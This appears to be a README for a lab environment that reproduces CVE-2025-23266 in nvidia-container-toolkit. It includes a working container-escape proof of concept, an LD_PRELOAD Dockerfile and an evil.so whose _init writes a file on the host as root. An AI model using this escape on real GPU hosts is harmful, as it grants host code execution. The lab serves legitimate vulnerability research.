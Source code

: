 # nvidia-container-toolkit cve-2025-23266

* dqd:
  * ssst0n3/docker_archive:cve-2025-23266 -> ssst0n3/docker_archive:cve-2025-23266_v0.3.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.3.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.2.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2025-23266 -> ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0: CDI mode compatible
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.2.0: setup hostname; install netcat
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.1.0

## usage

```shell
$ cd vul/cve-2025-23266
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

### reproduce

[demo.ogv](./demo.ogv)

![demo.gif](./demo.gif)

```shell
$ ./ssh
root@cve-2025-23266:~# mkdir poc
cd poc
cat << EOF > Dockerfile
FROM busybox
ENV LD_PRELOAD=/proc/self/cwd/evil.so
ADD evil.so /
EOF

cat << EOF > evil.c 
#include <stdlib.h>
#include <stdio.h>

void _init() {
    FILE *f = fopen("/proof-cve-2025-23266", "w");
    fclose(f);
}
EOF

gcc -fPIC -shared -o evil.so evil.c -nostartfiles
docker build -t poc .
root@cve-2025-23266:~# docker run --rm --runtime=nvidia --gpus=all poc
root@cve-2025-23266:~# ls -lah /proof-cve-2025-23266 
-rw-r--r-- 1 root root 0 Jul 21 14:49 /proof-cve-2025-23266
```

### fake-nvidia

```shell
root@cve-2025-23266:~/poc# nvidia-container-cli info
NVRM version:   575.57.08
CUDA version:   12.2

Device Index:   0
Device Minor:   0
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-0-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   1
Device Minor:   1
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-1-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   2
Device Minor:   2
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-2-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   3
Device Minor:   3
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-3-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5
root@cve-2025-23266:~/poc# lsmod |grep fake
fake_nvidia_driver     12288  0
root@cve-2025-23266:~/poc# ls -lah /usr/local/lib/libnvidia-ml.so.1
-rwxr-xr-x 1 root root 22K Jul 25 03:05 /usr/local/lib/libnvidia-ml.so.1
root@cve-2025-23266:~/poc# systemctl status fake-nvidia-mknod
○ fake-nvidia-mknod.service - Create device nodes for fake nvidia driver
     Loaded: loaded (/etc/systemd/system/fake-nvidia-mknod.service; enabled; preset: enabled)
     Active: inactive (dead) since Fri 2025-07-25 03:53:03 UTC; 6min ago
    Process: 646 ExecStart=/usr/local/bin/fake-nvidia-mknod.sh (code=exited, status=0/SUCCESS)
   Main PID: 646 (code=exited, status=0/SUCCESS)
        CPU: 7ms

Jul 25 03:53:03 cve-2025-23266 systemd[1]: Starting fake-nvidia-mknod.service - Create device nodes for fake nvidia driver...
Jul 25 03:53:03 cve-2025-23266 systemd[1]: fake-nvidia-mknod.service: Deactivated successfully.
Jul 25 03:53:03 cve-2025-23266 systemd[1]: Finished fake-nvidia-mknod.service - Create device nodes for fake nvidia driver.
```

### env details

```shell
$ ./ssh
root@cve-2025-23266:~/poc# docker info
Client: Docker Engine - Community
 Version:    28.1.1
 Context:    default
 Debug Mode: false
 Plugins:
  buildx: Docker Buildx (Docker Inc.)
    Version:  v0.20.1
    Path:     /usr/libexec/docker/cli-plugins/docker-buildx
  compose: Docker Compose (Docker Inc.)
    Version:  v2.33.1
    Path:     /usr/libexec/docker/cli-plugins/docker-compose

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 1
 Server Version: 28.1.1
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Using metacopy: false
  Native Overlay Diff: true
  userxattr: false
 Logging Driver: json-file
 Cgroup Driver: systemd
 Cgroup Version: 2
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local splunk syslog
 Swarm: inactive
 Runtimes: runc io.containerd.runc.v2 nvidia
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 05044ec0a9a75232cad458027ca83437aae3f4da
 runc version: v1.2.5-0-g59923ef
 init version: de40ad0
 Security Options:
  apparmor
  seccomp
   Profile: builtin
  cgroupns
 Kernel Version: 6.8.0-64-generic
 Operating System: Ubuntu 24.04.2 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 1.922GiB
 Name: cve-2025-23266
 ID: 6cfae970-9b1e-40e5-95a1-269797a55572
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Experimental: false
 Insecure Registries:
  ::1/128
  127.0.0.0/8
 Live Restore Enabled: false
```

## build

```shell
make all DIR=vul/cve-2025-23266
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0
```
